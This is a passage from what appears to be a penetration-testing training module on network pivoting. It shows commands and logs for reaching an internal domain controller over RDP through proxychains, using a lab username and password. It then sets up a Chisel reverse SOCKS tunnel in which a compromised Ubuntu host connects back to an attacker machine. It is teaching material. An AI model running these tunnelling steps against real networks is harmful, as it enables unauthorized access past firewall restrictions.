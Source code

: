 Now if we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

#### Pivoting to the DC

```shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

```

* * *

## Chisel Reverse Pivot

In the previous example, we used the compromised machine (Ubuntu) as our Chisel server, listing on port 1234. Still, there may be scenarios where firewall rules restrict inbound connections to our compromised target. In such cases, we can use Chisel with the reverse option.

When the Chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote reversed. The server will listen and accept connections, and they will be proxied through the client, which specified the remote. Reverse remotes specifying `R:socks` will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy.

We'll start the server in our attack host with the option `--reverse`.

#### Starting the Chisel Server on our Attack Host

```shell
sudo ./chisel server --reverse -v -p 1234 --socks5

2022/05/30 10:19:16 server: Reverse tunnelling enabled
2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234

```

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

#### Connecting the Chisel Client to our Attack Host

```shell
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks

2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
2022/05/30 14:19:29 client: Handshaking...
2022/05/30 14:19:30 client: Sending config
2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
2022/05/30 14:19:30 client: tun: SSH connected

```

We can use any editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.

#### Editing & Confirming proxychains.conf
